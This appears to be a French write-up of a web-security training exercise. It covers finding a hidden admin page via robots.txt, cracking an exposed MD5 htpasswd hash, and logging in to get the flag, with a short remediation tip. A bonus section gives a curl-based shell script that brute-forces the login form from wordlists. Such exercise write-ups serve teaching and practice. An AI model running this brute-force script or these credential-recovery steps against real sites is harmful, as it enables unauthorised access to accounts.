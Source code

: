 # Explications
Dans la page "http://IP/admin/", qui est une page cachée, il y un formulaire de connexion :

```html
<form action="#" method="POST"> 
	Username: <input type="text" name ="username" style="width:100%;"recquired="" >
	Password:<input type="password" name ="password" style="width:100%;" AUTOCOMPLETE="off" recquired="" >
	&nbsp;	<p align="center"><input type="submit" value="Login" name ="Login"></p>
</form>
```
On observe aussi la présence d'un robots.txt sur le site comprenant :
<pre>User-agent: *
Disallow: /whatever
Disallow: /.hidden</pre>

<pre>Le fichier robots.txt, à placer la racine d'un site web, contient une liste de ressources du site qui ne sont pas censées être explorées par les moteurs de recherches.

Par convention, les robots consultent le fichier robots.txt avant d'explorer puis d'indexer un site Web. Lorsqu'un robot tente d'accéder à une page web, comme par exemple http://www.mon-domaine.fr/page.html, il tente d'accéder en premier lieu au fichier robots.txt situé à l'adresse http://www.mon-domaine.fr/robots.txt</pre>

En allant sur la page <code>/whatever</code>, on trouve un htpasswd, ou il y a marqué:

<pre>root:8621ffdbc5698829397d97767ac13db3</pre>

On en deduit donc qu'il sagit d'un login et d'un mot de passe (Pour la page "admin"). 

Une fois encore il s'agit de MD5 pour le mot de passe, donc on reverse et on trouve :

<pre><code>dragon</code></pre>

En tapant dans le page "admin", <code>root</code> et <code>dragon</code>, on trouve le flag.

# Comment l'éviter ?
Il faut proteger la page en question avec un .htaccess.

# Bonus
Le mot de passe et le user de cette page sont aussi trouvable en **Brute Force** avec un script shell un peu different du premier:
```bash
#!/bin/sh
url="http://$1/admin/"
curl -s -X POST "$url" -d "username=qsdqsdq&password=qsdqsd&Login=Login" > trueone
while IFS='' read -r user; do
	echo "try user : $user"
	while IFS='' read -r line; do
		echo "\ttry password: $line"
		curl -s "$url" -d "username=$user&password=$line&Login=Login"> tested
		DIFF=$(diff trueone tested)
		if [ "$DIFF" != "" ]
		then
			cat tested | grep "flag"
			echo "user is : $user\npassword is $line" >> result.txt
			rm tested
			break
		fi
		rm tested
	done < "dict.txt"
done < "users.txt"
```